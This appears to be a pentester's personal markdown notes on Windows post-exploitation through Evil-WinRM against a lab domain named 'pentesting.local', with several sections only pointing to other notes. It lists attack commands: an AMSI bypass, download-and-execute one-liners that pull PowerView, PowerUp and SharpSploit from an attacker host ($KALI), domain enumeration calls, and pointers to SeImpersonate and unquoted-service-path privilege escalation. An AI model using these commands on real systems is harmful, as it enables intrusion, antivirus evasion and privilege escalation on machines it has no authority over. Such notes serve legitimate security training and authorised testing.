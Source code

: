 | SAMPLE DC RESULTS | FROM SCANS |
| --- | --- |
| NETBIOS_DOMAIN_NAME  | PENTESTING |
| NETBIOS_COMPUTER_NAME  | DC |
| DNS_DOMAIN_NAME  | pentesting.local |
| DNS_COMPUTER_NAME  | dc.pentesting.local |

| SAMPLE AD RESULTS | FROM SCANS |
| --- | --- |
| NETBIOS_DOMAIN_NAME  | PENTESTING |
| NETBIOS_COMPUTER_NAME  | AD |
| DNS_DOMAIN_NAME  | pentesting.local |
| DNS_COMPUTER_NAME  | ad.pentesting.local |

#### 24 EvilWinRM

![[Port 5985 - WinRM ~#Steps]]


#### 25 EvilWinRM + Local Priv Esc Upload and Download


![[Port 5985 - WinRM ~#Downloading files - MUST USE FULL PATHS]]

![[Port 5985 - WinRM ~#Uploading files - MUST USE FULL PATHS]]

#### 26 EvilWinRM + Local Priv Esc PowerView ps1

Download the following:

```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
```

```
wget https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1
```

```
menu
```

```
Bypass-4MSI
```

[[Python#Server]]
```
IEX(New-Object Net.WebClient).DownloadString('http://$KALI/PowerView.ps1')
```

```
IEX(New-Object Net.WebClient).DownloadString('http://$KALI/PowerUp.ps1')
```

```
Invoke-AllChecks
```

#### EvilWinRM + Local Privilege Escalation SharpSploit Enumeration

https://github.com/cobbr/SharpSploit

GUIDE: https://blog.king-sabri.net/red-team/how-to-compile-embed-and-use-sharpsploit

[[Python#Server]]

```
Bypass-4MSI
```

```
Dll-Loader -http -path http://$KALI/SharpSploit.dll
```

```
menu
```

```
[SharpSploit.
```

Hit tab a few times to see all possibilities!

```
[SharpSploit.Enumeration.Net]::GetNetLocalGroupMembers()
```

```
[SharpSploit.Enumeration.Net]::GetNetLocalGroups()
```

```
[SharpSploit.Enumeration.Net]::GetNetLoggedOnUsers()
```

```
[SharpSploit.Enumeration.Net]::GetNetSessions()
```

```
[SharpSploit.Enumeration.Net]::GetNetShares()
```

#### 33 EvilWinRM + Local Priv Esc SEImpersonate

[[7._Potato or PrintSpoofer#PrintSpoofer]]

#### 34 EvilWinRM + Local Priv Esc Unquoted Service Path

[[16._Unquoted Path]]

Depending on which folder we have read / write access to:
C:\Program.exe
C:\Program Files\Abyss.exe
C:\Program Files\Abyss Web\ Abyss Web Server\abyssws.exe

